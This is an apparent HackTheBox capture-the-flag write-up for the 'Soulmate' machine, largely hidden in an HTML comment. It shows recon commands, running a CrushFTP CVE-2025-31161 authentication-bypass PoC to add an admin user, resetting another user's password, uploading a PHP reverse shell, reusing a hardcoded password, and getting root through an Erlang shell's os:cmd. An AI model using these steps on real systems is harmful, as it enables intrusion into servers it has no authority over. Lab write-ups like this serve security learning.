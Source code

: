 # Soulmate

```
Difficulty: Easy
Operating System: Linux
Hints: True
```

**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**

<!--


### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Details |
| :--- | :--- | :--- | :--- |
| 1 | `(Local)` | Nmap Scan, Dirsearch, Subdomain Fuzzing | The initial **Nmap** scan revealed ports **22 (SSH)**, **80 (HTTP)**, and **8000 (HTTP-alt)**. A **Dirsearch** scan on port 80 identified a standard web application with login and registration pages. **Subdomain fuzzing** with `ffuf` led to the discovery of the `ftp.soulmate.htb` subdomain. |
| 2 | `z0n` | Exploiting CrushFTP (CVE-2025-31161) | The `ftp` subdomain was found to be running an instance of **CrushFTP**. A search for public exploits uncovered **CVE-2025-31161**, an authentication bypass vulnerability. A Python script was used to exploit this vulnerability, allowing for the creation of a new user account with a chosen username (`z0n`) and password (`admin123`). |
| 3 | `ben` | Credential Reuse, FTP Panel Enumeration | Logging into the FTP panel as the newly created user `z0n` revealed a user management module. The password for the user `ben` was changed through this module. With the new password, access was gained to the FTP account of `ben`, which had write permissions to the `/webProd` directory, corresponding to the web root of `soulmate.htb`. |
| 4 | `www-data` | Reverse Shell | A PHP reverse shell payload was uploaded to the `/webProd` directory via the FTP panel. By navigating to the reverse shell's URL in a browser, a connection was established, providing a low-privilege shell as the **`www-data`** user. This user is commonly associated with web server processes. |
| 5 | `ben` | Information Gathering (File Analysis) | From the `www-data` shell, a thorough file system enumeration was performed. The file `/usr/local/lib/erlang_login/start.escript` was discovered, which contained a hardcoded password for the **`ben`** user: `HouseH0ldings998`. This password was then used to gain SSH access on port 22 as the `ben` user. |
| 6 | `root` | Erlang Shell Exploitation | As the `ben` user, a port scan on the loopback interface (`127.0.0.1`) revealed an Erlang-based SSH service listening on port **2222**. A connection to this service via `netcat` (`nc`) granted access to an Erlang interpreter shell. By checking the loaded modules (`m().`), the `os` module was found. The `os:cmd("whoami").` command was used to execute a shell command, which returned **`root`**, confirming that the service was running with root privileges and allowing for full system control. |


### Initial Enumeration 🕵️‍♂️

The reconnaissance phase began with an **Nmap** scan to identify the network services running on the target machine `soulmate.htb`.

```
(myenv)─(xpl0riz0n__XPl0RIz0n)-[~/ctf_OpenVPN] nmap soulmate.htb -A
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http      nginx 1.18.0 (Ubuntu)
8000/tcp open  http-alt?
```

The results showed three open ports:

  * **Port 22:** Running **OpenSSH 8.9p1**, which indicated the possibility of remote shell access if valid credentials were found.
  * **Port 80:** Running **Nginx 1.18.0** for a web server, which served the main `soulmate.htb` website. The `http-title` was `Soulmate - Find Your Perfect Match`, suggesting a dating-themed web application.
  * **Port 8000:** Running an unknown `http-alt` service, possibly another web server or API. The OS details suggested it was a Linux kernel version between 4.15 and 5.19.

-----

### Web Enumeration & Subdomain Fuzzing 🌐

With the web server identified, the next step was to explore the directories and files on the main website using **Dirsearch**.

```
(myenv)─(xpl0riz0n__XPl0RIz0n)-[~/ctf_OpenVPN] dirsearch -u 'http://soulmate.htb'
[21:15:24] 301 -   178B - /assets  ->  http://soulmate.htb/assets/
[21:15:28] 302 -     0B - /dashboard.php  ->  /login
[21:15:33] 200 -   16KB - /index.php
[21:15:35] 200 -    8KB - /login.php
[21:15:35] 302 -     0B - /logout.php  ->  login.php
[21:15:40] 302 -     0B - /profile.php  ->  /login
[21:15:41] 200 -   11KB - /register.php
[21:15:42] 301 -   178B - /shell  ->  http://soulmate.htb/shell/
[21:15:42] 403 -   564B - /shell/
```

The scan returned several files and directories, including `/login.php`, `/register.php`, and `/dashboard.php`, which are typical for a web application requiring user authentication. The `/shell` directory was a notable find, but it returned a `403 Forbidden` status code, indicating it was protected from direct access.

Given the potential for a larger attack surface, a **subdomain fuzzing** attack was executed using `ffuf` to check for other hosted websites.

```
(myenv)─(xpl0riz0n__XPl0RIz0n)-[~/ctf_OpenVPN] ffuf -u 'http://soulmate.htb/' -H 'Host: FUZZ.soulmate.htb' -w /usr/share/fuzzDicts/subdomainDicts/main.txt -fw 4
ftp                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 209ms]
```

The subdomain `ftp.soulmate.htb` was discovered. A `302` redirect indicated that this subdomain was an alias or redirecting to another service. A manual visit to this subdomain showed a web-based FTP panel, which appeared to be a product called **CrushFTP**.


![Subdomain](Pictures/htb_soulmate_ftp.png)


-----

### Exploiting CrushFTP to Gain a Foothold 💥

Searching for vulnerabilities in "CrushFTP" revealed a recent authentication bypass vulnerability, **CVE-2025-31161**, which allowed an attacker to create a new user account without proper authentication. A public proof-of-concept (PoC) script was available for this exploit.

![CVE_Exploit](Pictures/htb_soulmate_CVE_EXP.png)

The Python PoC script was used to create a new user named `z0n` with the password `admin123`.

```
(myenv)─(xpl0riz0n__XPl0RIz0n)-[~/ctf_OpenVPN] python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user z0n --password admin123
[+] Exploit Complete you can now login with
[*] Username: z0n
[*] Password: admin123
```



Successfully logging into the CrushFTP panel with the newly created credentials, a user management module was discovered. 


![Accessed_portal](Pictures/htb_soulmate_ftp_cve_exp_done.png)


Although the `z0n` user had no permissions to access files,

![Admin](Pictures/htb_soulmate_admin_web.png) 

the user management module allowed for modifying other users' passwords.

![User](Pictures/htb_soulmate_user_man.png) 

The password for the user `ben` was changed.

![Password_change](Pictures/htb_soulmate_ben_man.png)



After changing the password, 

![Login_Portal](Pictures/htb_soulmate_ben_login.png)

logging in as `ben` revealed access to the `webProd` directory, which was mapped to the web root of `soulmate.htb`. This was a critical finding as it allowed for a remote code execution (RCE) payload to be uploaded. A simple PHP reverse shell was uploaded to this directory.

![File_Upload](Pictures/htb_soulmate_shell_upload_web_prod.png)

Navigating to the reverse shell's URL in a browser triggered the payload, and a low-privilege shell was established as the **`www-data`** user.


-----

### Privilege Escalation to `ben` 🚶‍♂️

Inside the `www-data` shell, the file system was explored. A particularly interesting file was found at `/usr/local/lib/erlang_login/start.escript`.

![Secret](Pictures/htb_soulmate_Web_rev.png)

 This script appeared to be a custom SSH login script written in Erlang.

```bash
www-data@soulmate:/tmp$ cat /usr/local/lib/erlang_login/start.escript
...
{user_passwords, [{"ben", "HouXXXXXXXXXXXXX"}]},
...
```

The script contained a hardcoded password for the `ben` user: `HouXXXXXXXXXXXXX`. This password was then used to log into the main SSH service on port 22, successfully gaining a shell as the user `ben`.

![User_flag](Pictures/htb_soulmate_Usr_flag.png)

-----

### Privilege Escalation to `root` 👑

As the `ben` user, the `ss` command was used to check the listening network sockets to find any potential internal services.

```bash
ben@soulmate:~$ ss -tuln
...
tcp           LISTEN         0              5                          127.0.0.1:2222                       0.0.0.0:*
...
```

```bash
ben@soulmate:~$ ssh ben@127.0.0.1 -p 2222
...
```

The output showed an Erlang-based SSH service listening on port **2222**, but only on the loopback interface (`127.0.0.1`). This meant it could only be accessed from the machine itself.

A direct connection was attempted using `nc 127.0.0.1 2222`, which confirmed the service was active and responded with an Erlang shell prompt `(ssh_runner@soulmate)1>`.

Inside the Erlang shell, the `m().` command was executed to list all loaded modules. The **`os`** module was listed, a key finding as it is used for interacting with the operating system.

```erlang
(ssh_runner@soulmate)2> m().
Module                File
<skip>
os                    /usr/local/lib/erlang/lib/kernel-10.2.5/ebin/os.beam
<skip>
```

With the `os` module available, it was possible to execute arbitrary shell commands using the `os:cmd()` function. To check the current user's privileges, `whoami` was executed.

```erlang
(ssh_runner@soulmate)2> os:cmd("whoami").
"root\n"
```

![Root_Flag](Pictures/htb_soulmate_Root_flag.png)

The output returned **`root`**, indicating that the Erlang SSH service was running with `root` privileges. This allowed for full control over the system as `root` and the capture of the final flag.

**Pwned! Soulmate**

-->